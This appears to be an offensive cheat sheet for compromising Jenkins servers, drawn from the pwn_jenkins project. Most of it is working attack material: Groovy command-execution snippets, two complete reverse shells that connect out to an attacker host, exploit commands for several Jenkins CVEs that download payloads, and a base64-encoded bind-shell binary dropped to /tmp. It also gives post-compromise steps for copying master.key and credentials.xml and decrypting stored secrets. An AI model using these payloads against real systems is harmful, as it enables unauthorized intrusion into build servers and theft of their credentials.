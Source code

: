 # Jenkins

```text
# Tools
# dump_builds, offline_decryption & password_spraying
# https://github.com/gquere/pwn_jenkins
# https://github.com/Accenture/jenkins-attack-framework

# URL's to check
JENKINSIP/PROJECT//securityRealm/user/admin
JENKINSIP/jenkins/script

# Groovy RCE
def process = "cmd /c whoami".execute();println "${process.text}";

# Groovy RevShell
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## Common bugs

### Deserialization RCE in old Jenkins \(CVE-2015-8103, Jenkins 1.638 and older\)

Use [ysoserial](https://github.com/frohoff/ysoserial) to generate a payload. Then RCE using [this script](https://github.com/gquere/pwn_jenkins/blob/master/rce/jenkins_rce_cve-2015-8103_deser.py):

```bash
java -jar ysoserial-master.jar CommonsCollections1 'wget myip:myport -O /tmp/a.sh' > payload.out
./jenkins_rce.py jenkins_ip jenkins_port payload.out
```

### Authentication/ACL bypass \(CVE-2018-1000861, Jenkins &lt;2.150.1\)

Details [here](https://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html).

If the Jenkins requests authentication but returns valid data using the following request, it is vulnerable:

```bash
curl -k -4 -s https://example.com/securityRealm/user/admin/search/index?q=a
```

### Metaprogramming RCE in Jenkins Plugins \(CVE-2019-1003000, CVE-2019-1003001, CVE-2019-1003002\)

Original RCE vulnerability [here](https://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html), full exploit [here](https://github.com/petercunha/jenkins-rce).

Alternative RCE with Overall/Read and Job/Configure permissions [here](https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc).

### CheckScript RCE in Jenkins \(CVE-2019-1003029, CVE-2019-1003030\)

Check if a Jenkins instance is vulnerable \(needs Overall/Read permissions\) with some Groovy:

```bash
curl -k -4 -X POST "https://example.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){sleep(5000)}}'
```

Execute arbitrary bash commands:

```bash
curl -k -4 -X POST "https://example.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){"wget xx.xx.xx.xx/bla.txt".execute()}}'
```

If you don't immediately get a reverse shell you can debug by throwing an exception:

```bash
curl -k -4 -X POST "https://example.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){def proc="id".execute();def os=new StringBuffer();proc.waitForProcessOutput(os, System.err);throw new Exception(os.toString())}}'
```

### Git plugin \(&lt;3.12.0\) RCE in Jenkins \(CVE-2019-10392\)

This one will only work is a user has the 'Jobs/Configure' rights in the security matrix, so it's very specific.

### Dumping builds to find cleartext secrets

Use [this script](https://github.com/gquere/pwn_jenkins/blob/master/dump_builds/jenkins_dump_builds.py) to dump build console outputs and build environment variables to hopefully find cleartext secrets.

```text
usage: jenkins_dump_builds.py [-h] [-u USER] [-p PASSWORD] [-o OUTPUT_DIR]
                              [-l] [-r] [-d] [-s] [-v]
                              url [url ...]

Dump all available info from Jenkins

positional arguments:
  url

optional arguments:
  -h, --help            show this help message and exit
  -u USER, --user USER
  -p PASSWORD, --password PASSWORD
  -o OUTPUT_DIR, --output-dir OUTPUT_DIR
  -l, --last            Dump only the last build of each job
  -r, --recover_from_failure
                        Recover from server failure, skip all existing
                        directories
  -d, --downgrade_ssl   Downgrade SSL to use RSA (for legacy)
  -s, --no_use_session  Don't reuse the HTTP session, but create a new one for
                        each request (for legacy)
  -v, --verbose         Debug mode
```

### Password spraying

Use [this python script](https://github.com/gquere/pwn_jenkins/blob/master/password_spraying/jenkins_password_spraying.py).

### Files to copy after compromising

These files are needed to decrypt Jenkins secrets:

* secrets/master.key
* secrets/hudson.util.Secret

Such secrets can usually be found in:

* credentials.xml
* jobs/.../build.xml

Here's a regexp to find them:

```bash
grep -re "^\s*<[a-zA-Z]*>{[a-zA-Z0-9=+/]*}<"
```

### Decrypt Jenkins secrets offline

Use [this script](https://github.com/gquere/pwn_jenkins/blob/master/offline_decryption/jenkins_offline_decrypt.py) to decrypt previously dumped secrets.

```text
Usage:
    jenkins_offline_decrypt.py <jenkins_base_path>
or:
    jenkins_offline_decrypt.py <master.key> <hudson.util.Secret> [credentials.xml]
or:
    jenkins_offline_decrypt.py -i <path> (interactive mode)
```

### Groovy Scripts

### Decrypt Jenkins secrets from Groovy

```java
println(hudson.util.Secret.decrypt("{...}"))
```

### Command execution from Groovy

```java
def proc = "id".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```

For multiline shell commands, use the following shell syntax trick \(example includes bind shell\):

```java
def proc="sh -c \$@|sh . echo /bin/echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAzgAAAAAAAAAkAQAAAAAAAAAQAAAAAAAAailYmWoCX2oBXg8FSJdSxwQkAgD96UiJ5moQWmoxWA8FajJYDwVIMfZqK1gPBUiXagNeSP/OaiFYDwV19mo7WJlIuy9iaW4vc2gAU0iJ51JXSInmDwU= | base64 -d > /tmp/65001".execute();
```

Automate it using [this script](https://github.com/gquere/pwn_jenkins/blob/master/rce/jenkins_rce_admin_script.py).

### Reverse shell from Groovy

```java
String host="myip";
int port=1234;
String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

I'll leave this reverse shell tip to recover a fully working PTY here in case anyone needs it:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
^Z bg
stty -a
echo $TERM
stty raw -echo
fg
export TERM=...
stty rows xx columns yy
```


--- 


- https://github.com/gquere/pwn_jenkins
